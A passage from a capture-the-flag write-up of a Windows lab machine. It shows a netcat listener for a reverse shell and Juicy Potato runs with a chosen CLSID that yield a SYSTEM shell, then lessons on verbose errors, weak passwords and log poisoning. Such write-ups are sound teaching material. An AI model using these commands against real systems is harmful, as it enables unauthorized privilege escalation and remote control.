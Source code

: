 Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
COM -> recv failed with error: 10038
```

It fails to escalate privileges with the default CLSID. We can get the list of CLSIDs on our system using [this script](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). However, let’s first manually try one of the Windows 10 Pro CLSIDs available on the Juicy Potato [github repo](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro).

![](https://miro.medium.com/max/722/1*MaYvCPnT_O6l9Osv6Ivd8Q.png)

Rerun the Juicy Potato executable with the above specific CLSID.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 4444
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

![](https://miro.medium.com/max/794/1*IEonzrpo3CxGfxwKY8mknw.png)

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/538/1*pLNfv5kvmrf1AjFkB5u5YA.png)

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/606/1*0ypjDHRh3i-RDLzsI9DYeA.png)

## Lessons Learned <a id="146b"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Verbose message on the login form. The error message allowed us to enumerate a valid username. Therefore, whenever possible, always configure the application to use less ****verbose error messages. A better error message would be “The username or password is incorrect”.
2. Weak login credentials. The developer was using his last name as a password. He should have instead used a sufficiently long password that is difficult to crack.
3. Log file poisoning. Since the log file was storing the user agent \(user controlled data\) without any input validation, we were able to inject malicious code onto the server. This could have been easily avoided if the developer validated user input.

To escalate privileges we didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts.

